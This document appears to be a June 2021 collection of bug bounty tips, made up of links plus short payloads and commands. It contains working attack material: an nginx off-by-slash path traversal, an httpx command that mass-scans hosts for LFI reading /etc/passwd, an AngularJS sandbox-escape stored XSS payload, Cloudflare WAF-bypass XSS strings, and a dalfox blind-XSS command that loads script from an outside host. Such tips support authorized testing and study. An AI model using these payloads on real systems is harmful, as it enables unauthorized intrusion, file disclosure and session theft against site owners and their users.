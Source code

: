 # Bug Bounty Tips - June 2021

## Stumble upon 404 nginx servers? make sure to test for off-by-slash vulnerabilities

```text
http://example[.]com/index.php -> File not found
http://example[.].com/assets../index.php -> source code
```
**Try with img, js, assets, vendors, media as the folder name**
***Source: https://twitter.com/naglinagli/status/1401259603845918722?s=20***
***Reference: https://portswigger.net/bappstore/a5fdd2cdffa6410eb530de5a4c294d3a***

## Identify AD attack paths breaking the tier model using BloodHound
Github: https://github.com/improsec/ImproHound
Blogpost: https://improsec.com/tech-blog/improhound-identify-ad-tiering-violations
Demo video: https://youtu.be/zQ01tvTr6H0

## Exploiting outdated Apache Airflow instances
- https://ian.sh/airflow

## Quick test all the hosts for LFI via [@pdiscoveryio](https://github.com/projectdiscovery) - [httpx](https://github.com/projectdiscovery/httpx)

- https://github.com/hussein98d/LFI-files

```sh
httpx -l allhosts -paths /root/list.txt -threads 100 -random-agent -x GET,POST,PUT -title -tech-detect -status-code  -follow-redirects -title -mc 200 -match-regex "root:[x*]:0:0:"
```

![img](https://pbs.twimg.com/media/E3ykkLOX0AUI1kA?format=jpg&name=large)

## AngularJS stored XSS
```text
1. Usual payload in product name as '"><img src onerror=alert(1)>x{{7*7}}
2. Output as '">x49
```
### Final payload
```js
{{a=toString().constructor.prototype;a.charAt=a.trim;$eval('a,alert(1),a')}}
```
***Source: https://twitter.com/4z1zu/status/1376139627220725760?s=20***

## File Upload Checklist
![img](https://pbs.twimg.com/media/ErhbCBAW8AElD5G?format=png&name=large)
![img](https://pbs.twimg.com/media/ErhbC7EXUAAPfqO?format=png&name=large)
![img](https://pbs.twimg.com/media/ErhbDodWMAARW98?format=png&name=large)
![img](https://pbs.twimg.com/media/ErhbEceXMAAZeLF?format=png&name=large)

## Intigriti May XSS Challenge Solution
- https://infosecwriteups.com/solution-and-explanation-of-tips-for-intigritis-0521-xss-challenge-by-grumpinout-7544bad98e59

## Host Header Injection Writeups
- https://link.medium.com/w8U0Cmz6bhb
- https://link.medium.com/yfM33zA6bhb
- https://sites.google.com/site/testsitehacking/10k-host-header
- https://link.medium.com/uRmqVxT6bhb
- https://link.medium.com/KzO5UK06bhb
- https://link.medium.com/jZ8Gd816bhb
- https://link.medium.com/1DbUUj46bhb
- https://link.medium.com/hoXVNp56bhb
- https://link.medium.com/2n61hn66bhb
- https://link.medium.com/rQhotO76bhb

## CVE-2020-11110 Grafana Stored XSS
- https://ctf-writeup.revers3c.com/challenges/web/CVE-2020-11110/index.html

## New CloudFlare XSS bypass 
```js
< svg on onload = ( alert ) ( document.domain ) > 

r " on onmouseover = ( alert ) ( document.domain ) // 

r * / eval ?. ( value % 2B / ( / . source ) // " > < input value = confirm autofocus onfocus = ' / * "
```

## [Find XSS and Blind XSS via dalfox](https://twitter.com/Alra3ees/status/1407058456323014659?s=20)
send every request to burpsuite for more manual testing
```sh
dalfox file hosts --mining-dom  --deep-domxss --ignore-return -b '"><script src=https://YOURS.xss.ht></script>' --follow-redirects --proxy http://127.0.0.1:8080
```
![img](https://pbs.twimg.com/media/E4bf-FDXEAQmF2Q?format=jpg&name=large)

